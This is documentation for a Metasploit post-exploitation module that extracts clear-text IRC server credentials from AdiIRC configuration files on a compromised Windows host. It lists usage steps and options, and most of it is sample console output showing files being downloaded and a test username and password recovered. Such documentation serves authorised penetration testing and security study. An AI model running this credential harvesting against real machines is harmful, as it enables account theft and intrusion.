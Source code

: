 ## Vulnerable Application

This post-exploitation module extracts clear text credentials from the Adi IRC Client.

The Adi IRC Client is avaialble from (https://www.adiirc.com/).

This module extracts information from the config.ini and networks.ini files in the "AppData\Local\AdiIRC" directory.

This module extracts server information such as server name, server port, user name, and password.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/adi_irc
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files
which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined
regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Scenarios
### Default Output
```
msf6 post(windows/gather/credentials/adi_irc) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Adi irc's Config file found
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\config.bak
[*] Adi irc Config.bak downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083920_default_10.0.0.2_AdiIRCconfig.ba_051695.bak

[+] serverhost=chat.freenode.net
[+] Serverhost=irc.test.net
[+] serverport=6667
[+] Serverport=6667
[+] Usernick=TheTester
[+] QuickPassword=tiaspbiqe2r
[+] File with data saved:  /home/kali/.msf4/loot/20240508083921_default_10.0.0.2_EXTRACTIONconfig_949744.bak
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\config.ini
[*] Adi irc Config.ini downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083921_default_10.0.0.2_AdiIRCconfig.in_618977.ini

[+] serverhost=chat.freenode.net
[+] Serverhost=irc.test.net
[+] serverport=6667
[+] Serverport=6667
[+] Usernick=TheTester
[+] QuickPassword=tiaspbiqe2r
[+] File with data saved:  /home/kali/.msf4/loot/20240508083921_default_10.0.0.2_EXTRACTIONconfig_981500.ini
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\networks.ini
[*] Adi irc Networks.ini downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083921_default_10.0.0.2_AdiIRCnetworks._976889.ini

[+] File with data saved:  /home/kali/.msf4/loot/20240508083922_default_10.0.0.2_EXTRACTIONconfig_407804.ini
[*] Adi irc's Networks file found
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\networks.ini
[*] Adi irc Networks.ini downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083922_default_10.0.0.2_AdiIRCnetworks._497206.ini

[*] undefined method `each' for nil:NilClass
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\networks.bak
[*] Adi irc Networks.bak downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083922_default_10.0.0.2_AdiIRCnetworks._102963.bak

[*] undefined method `each' for nil:NilClass
[*] PackRat credential sweep Completed
[*] Post module execution completed
```

### Verbose Output
```
msf6 post(windows/gather/credentials/adi_irc) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Starting Packrat...
[-] Adi irc's base folder not found in user's user directory

[-] Adi irc's base folder not found in user's user directory

[*] Starting Packrat...
[*] Adi irc's base folder found
[*] Found the folder containing specified artifact for config.
[*] Adi irc's Config file found
[*] Processing C:\Users\test\AppData\Local\AdiIRC
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\config.bak
[*] Adi irc Config.bak downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083813_default_10.0.0.2_AdiIRCconfig.ba_900175.bak

[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] serverhost=chat.freenode.net
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] Serverhost=irc.test.net
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] serverport=6667
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] Serverport=6667
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] Usernick=TheTester
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] QuickPassword=tiaspbiqe2r
[+] File with data saved:  /home/kali/.msf4/loot/20240508083814_default_10.0.0.2_EXTRACTIONconfig_209914.bak
[*] Processing C:\Users\test\AppData\Local\AdiIRC
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\config.ini
[*] Adi irc Config.ini downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083814_default_10.0.0.2_AdiIRCconfig.in_918837.ini

[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] serverhost=chat.freenode.net
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] Serverhost=irc.test.net
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] serverport=6667
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] Serverport=6667
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] Usernick=TheTester
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] QuickPassword=tiaspbiqe2r
[+] File with data saved:  /home/kali/.msf4/loot/20240508083814_default_10.0.0.2_EXTRACTIONconfig_383684.ini
[*] Processing C:\Users\test\AppData\Local\AdiIRC
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\networks.ini
[*] Adi irc Networks.ini downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083814_default_10.0.0.2_AdiIRCnetworks._579169.ini

[+] File with data saved:  /home/kali/.msf4/loot/20240508083814_default_10.0.0.2_EXTRACTIONconfig_073623.ini
[*] Adi irc's base folder found
[*] Found the folder containing specified artifact for networks.
[*] Adi irc's Networks file found
[*] Processing C:\Users\test\AppData\Local\AdiIRC
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\networks.ini
[*] Adi irc Networks.ini downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083814_default_10.0.0.2_AdiIRCnetworks._045399.ini

[*] undefined method `each' for nil:NilClass
[*] Processing C:\Users\test\AppData\Local\AdiIRC
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\networks.bak
[*] Adi irc Networks.bak downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083815_default_10.0.0.2_AdiIRCnetworks._439992.bak

[*] undefined method `each' for nil:NilClass
[*] PackRat credential sweep Completed
[*] Post module execution completed
```
